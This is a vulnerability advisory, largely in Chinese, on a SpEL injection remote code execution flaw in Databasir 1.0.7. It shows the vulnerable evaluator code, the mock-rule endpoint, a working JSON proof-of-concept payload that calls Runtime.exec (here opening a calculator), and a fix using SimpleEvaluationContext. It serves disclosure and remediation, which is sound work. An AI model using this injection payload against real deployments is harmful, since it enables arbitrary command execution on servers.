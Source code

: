 ### 影响

Databasir is a team-oriented relational database model document management platform.
Databasir 1.0.7 has remote code execution vulnerability.
Remote code execution vulnerability is a Web security vulnerability, we can execute any command, such as `open -a Calculator`

### 不安全的代码

`SpelScriptEvaluator`使用了StandardEvaluationContext作为context，`script`参数可控并且没有任何过滤

> SimpleEvaluationContext - 针对不需要 SpEL 语言语法的全部范围并且应该受到有意限制的表达式类别，公开 Spal 语言特性和配置选项的子集。
>
> StandardEvaluationContext - 公开全套 SpEL 语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

```java
@Component
@RequiredArgsConstructor
public class SpelScriptEvaluator implements MockScriptEvaluator {

    private final SpelExpressionParser spelExpressionParser = new SpelExpressionParser();

    @Override
    public String evaluate(String script, ScriptContext context) {
        Expression expression = spelExpressionParser.parseExpression(script);
        StandardEvaluationContext spelContext = new StandardEvaluationContext(context);
        return expression.getValue(spelContext, String.class);
    }
}
```

### 漏洞入口

在进行rules校验时

```java
    @PreAuthorize("hasAnyAuthority('SYS_OWNER', 'GROUP_OWNER?groupId='+#groupId, 'GROUP_MEMBER?groupId='+#groupId)")
    @Operation(summary = "保存 Mock Rule")
    @AuditLog(module = AuditLog.Modules.PROJECT, name = "保存 Mock Rule",
            involvedProjectId = "#projectId",
            involvedGroupId = "#groupId")
    @PostMapping(Routes.MockData.SAVE_MOCK_RULE)
    public JsonData<Void> saveMockRules(@PathVariable Integer groupId,
                                        @PathVariable Integer projectId,
                                        @PathVariable Integer tableId,
                                        @RequestBody @Valid List<ColumnMockRuleSaveRequest> rules) {
        mockDataService.saveMockRules(projectId, tableId, rules);
        return JsonData.ok();
    }
```

### POC

攻击者可以控制rules的参数来造成rce，例如：

```json
[
  {
    "columnName": "test",
    "dependentColumnName": "test",
    "dependentTableName": "test",
    "mockDataScript": "T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('open -a Calculator')",
    "mockDataType": "SCRIPT",
    "tableName": "test"
  }
]
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2bc2a508c7934b44803437cb64670678.png)



### 修复建议

最直接的方式：使用`SimpleEvaluationContext`来替换`StandardEvaluationContext`

